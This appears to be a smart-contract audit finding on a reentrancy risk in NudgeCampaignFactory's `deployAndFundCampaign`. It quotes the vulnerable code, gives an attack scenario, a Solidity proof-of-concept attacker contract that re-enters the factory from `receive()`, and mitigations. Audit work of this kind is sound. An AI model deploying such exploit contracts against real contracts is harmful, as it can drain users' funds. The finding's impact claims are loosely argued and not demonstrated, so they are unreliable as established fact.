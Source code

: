 ## [M-1]Missing Reentrancy Protection in `deployAndFundCampaign` function, Allows Potential Reentrancy Attacks

## Finding description and impact
The function `deployAndFundCampaign` in `NudgeCampaignFactory.sol` forwards ETH to the deployed campaign contract before marking it as deployed. This allows a potential reentrancy attack if the deployed campaign contract is attacker-controlled and executes a callback that re-enters the function before state changes are committed.

•Multiple Campaign Deployments: An attacker could trigger multiple campaign deployments with the same parameters before the contract recognizes the first deployment.
•Unexpected Fund Transfers: If the attacker reenters the function before the deployment is finalized, they may be able to manipulate the ETH transfer logic.
•State Inconsistency: The `isCampaign[campaign] = true;` assignment happens after fund transfers, leading to a temporary window where the campaign is not recognized, allowing an attacker to exploit this gap.


## Vulnerable Code:
```
 //@audit: chance of reentrancy here
 // Then send ETH
(bool sent, ) = campaign.call{value: initialRewardAmount}("");
if (!sent) revert NativeTokenTransferFailed();
```
•This forwards ETH before updating the campaign tracking `isCampaign[campaign] = true;` inside deployCampaign.

Attack Scenario:
1.Attacker Deploys Malicious Contract that accepts ETH and triggers a callback.
2.Attacker Calls deployAndFundCampaign, causing ETH to be forwarded to their contract.
3.Malicious Contract Reenters deployAndFundCampaign, forcing multiple campaign deployments before isCampaign[campaign] = true; is set.
4.This would result:
•The attacker can bypass campaign tracking, deploying multiple campaigns.
•ETH can be rerouted or drained in unexpected ways.

## Poc
```
contract MaliciousCampaign {
    NudgeCampaignFactory factory;
    bool reentered = false;

    constructor(address _factory) {
        factory = NudgeCampaignFactory(_factory);
    }

    receive() external payable {
        if (!reentered) {
            reentered = true;
            // Reenter deployAndFundCampaign with the same parameters
            factory.deployAndFundCampaign(
                86400,
                address(this),
                address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE), // native token
                1000,
                msg.sender,
                block.timestamp,
                msg.sender,
                msg.value,
                12345
            );
        }
    }
    }
```
## PoC Steps:
Deploy MaliciousCampaign with the address of NudgeCampaignFactory.
Call deployAndFundCampaign with ETH.
Observe multiple unintended campaign deployments due to reentrancy.

## Recommended mitigation steps
Use OpenZeppelin’s ReentrancyGuard

•Modify NudgeCampaignFactory.sol to inherit ReentrancyGuard:
contract NudgeCampaignFactory is INudgeCampaignFactory, AccessControl, ReentrancyGuard {

•Apply the nonReentrant modifier to deployAndFundCampaign:

function deployAndFundCampaign(...) external payable nonReentrant returns (address campaign) {

Use Checks-Effects-Interactions Pattern
•Move isCampaign[campaign] = true; before the ETH transfer:

```
isCampaign[campaign] = true;
(bool sent, ) = campaign.call{value: initialRewardAmount}("");
if (!sent) revert NativeTokenTransferFailed();
```

Limit Gas for External Calls
•Use a gas-limited transfer instead of .call{value: amount}("");
```
(bool sent, ) = campaign.call{value: initialRewardAmount, gas: 2300}("");
if (!sent) revert NativeTokenTransferFailed();
```
